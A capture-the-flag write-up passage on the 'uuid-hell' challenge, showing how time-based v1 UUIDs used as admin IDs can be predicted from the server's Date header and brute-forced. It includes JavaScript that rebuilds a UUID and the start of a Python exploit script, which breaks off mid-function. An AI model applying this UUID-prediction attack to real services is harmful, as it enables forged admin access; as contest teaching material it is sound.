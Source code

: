 output:

```
...snip...
< HTTP/2 200 
< date: Mon, 13 Feb 2023 00:45:31 GMT
< content-type: text/html; charset=utf-8
< x-powered-by: Express
< set-cookie: id=b7b9c6f0-ab37-11ed-aa64-67696e6b6f69; Path=/
< cf-cache-status: DYNAMIC
...snip...
```

More or less I used the code below to get the UUID from the server, but the results are slightly different, possibly due to delay from the server.

```javascript
const uuid = require('uuid');

function randomUUID() {
    return uuid.v1({
        'node': [0x67, 0x69, 0x6E, 0x6B, 0x6F, 0x69],
        'clockseq': 0b10101001100100,
        "msecs": Date.parse("Mon, 13 Feb 2023 00:45:31 GMT") ,
    });
}
console.log(randomUUID())
```

There is also something interesting here, namely that we can create an admin and the hash will later be visible on the main server page.

```javascript
app.post('/createadmin', (req, res) => {
    const adminid = randomUUID();
    adminuuids.push(adminid);
    res.send("Admin account created.")
});
```

### Exploit

We already know that we can create a new admin and get the hash in the web page challenge. From here we can bruteforce the first 4 bytes of the UUID, but since it will definitely take a long time to bruteforce it we need to use the `Date` from the server and after that we can bruteforce it to match the admin hash we just created in `/createadmin`. Here's the script I use to bruteforce and get the `Date` from the server:

```python
import hashlib
import requests
from subprocess import check_output
import re

URL = "https://uuid-hell.lac.tf"


def get_info(url=URL):
    class Info:
        date: str
        uuid: str
        hash: str

    res = requests.post(url+"/createadmin")
    info = Info
    info.date = res.headers.get("Date")
    res = requests.get(url)
    info.uuid = re.findall(r"(?<=as ).*?(?=<br>)", res.text)[-1]
```